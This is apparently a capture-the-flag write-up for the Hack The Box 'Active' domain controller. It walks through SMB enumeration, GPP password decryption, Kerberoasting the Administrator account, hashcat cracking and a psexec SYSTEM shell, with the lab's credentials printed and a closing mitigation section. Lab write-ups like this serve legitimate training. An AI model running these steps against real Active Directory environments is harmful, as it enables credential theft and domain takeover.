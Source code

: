 ```yaml
---
title: Active
date: 2025-04-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, GPP, Kerberoasting] 
image: active.webp
media_subpath: /assets/img/posts/2025-04-23-activeHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Easy Active Directory box Active. Let’s start ..
## Nmap

### TCP

Run a quick Nmap scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n --open -v
```

![image.png](image%202.png)

## Services

### Port 53

Microsoft **DNS 6.1.7601** (1DB15D39) (Windows Server 2008 R2 SP1)

**Domain: active.htb**

- **/etc/hosts**
    
    Add domain and DC to `/etc/hosts` file:
    
    ![image.png](image%203.png)
    
- **dig any** DNS records
    
    ```bash
    dig any active.htb @$IP
    ```
    
    ![image.png](image%204.png)
    
- **Zone transfer**
    
    ```bash
    dig axfr @$IP active.htb
    ```
    
    ![image.png](image%205.png)
    
- **Public Exploits**
    
    ```bash
    searchsploit DNS 6.1
    ```
    
    **No result.**
    

### Port 139/445

I checked shares and my permissions over them.

```bash
sudo nxc smb $IP -u '' -p '' --shares
```

![image.png](image%206.png)

I couldn’t find anything in `Replication` share.

## Web
...

## AD Initial Enumeration

### User Enumeration

```bash
./kerbrute_linux_amd64 userenum -d active.htb --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

![image.png](image%207.png)

### Port 389/3268

```bash
ldapsearch -x -H ldap://$IP -s base namingcontexts
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=active,DC=htb"
```

## Exploitation

## Loot

- [ ]  **Thoroughly check Replication share**
    
    `Let’s do this task, check replication share thoroughly`
    
    Let’s analyze files locally, we can map whole share to the local directory and run Python Web Server inside to analyze them quickly on the web, accessing `http://localhost`.
    
    ```bash
    RECURSE ON
    PROMPT OFF
    mget *
    python3 -m http.server 80
    ```
    
    ![image.png](image%208.png)
    

This GPP password, as it is located in Groups.xml under Policies.

I found this also in one of the cheatsheets that I am using:

[CheatSheet](https://gist.github.com/yezz123/52d2fc45c5de284ec89131c2a3dde389)

```
# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "
```
> GPP passwords are weakly encrypted with a known AES key and easily reversible.
{: .prompt-warning }

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![image.png](image%209.png)

Check the connection with netexec:

```bash
sudo nxc smb $IP -u SVC_TGS -d active.htb -p GPPstillStandingStrong2k18 --shares
```

## Privilege Escalation

![image.png](image%2010.png)

I checked all shares but found nothing.

As I have username and password I can try `Kerberoasting`:

```bash
GetUserSPNs.py -dc-ip $IP active.htb/SVC_TGS
```

We can see one Kerberoastable user, which is Administrator with CIFS SPN assigned, this is misconfiguration as high-privileged users shouldn’t be assigned SPNs.

```bash
GetUserSPNs.py -dc-ip $IP active.htb/SVC_TGS -request
```

![image.png](image%2011.png)

```bash
hashcat -m 13100 cifs.hash /usr/share/wordlists/rockyou.txt --force
```

![image.png](image%2012.png)

add this to credentials.

## Credentials

```bash
active.htb\SVC_TGS : GPPstillStandingStrong2k18
Administrator : Ticketmaster1968
```

Then I used this password with Administrator user and psexec give me NT Authority\System shell:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

![image.png](image%2013.png)

## Mitigation

- **Remove Group Policy Preferences (GPP) Passwords**: Avoid storing credentials in GPP files like `Groups.xml`. These passwords are weakly encrypted with a known AES key and easily reversible. Instead, use secure deployment mechanisms such as LAPS (Local Administrator Password Solution) or managed service accounts.
- **Audit SMB Shares**: Restrict access to SYSVOL and other shared folders where sensitive configuration files might reside. Regularly audit share permissions to ensure only authorized users have access.
- **Secure Service Accounts**:
    - Avoid assigning SPNs (Service Principal Names) to high-privilege users like `Administrator`. Instead, use dedicated service accounts with limited privileges.
    - Rotate passwords frequently, especially for accounts with SPNs, and use long, complex passwords resistant to offline cracking.
- **Monitor and Detect Kerberoasting Attempts**: Deploy monitoring solutions to detect abnormal Kerberos TGS requests. Tools like Microsoft ATA, Defender for Identity, or SIEM alerts can help identify such behavior.
- **Limit Lateral Movement**: Restrict administrative shares and enforce segmentation to reduce the risk of privilege escalation via tools like `PsExec`.
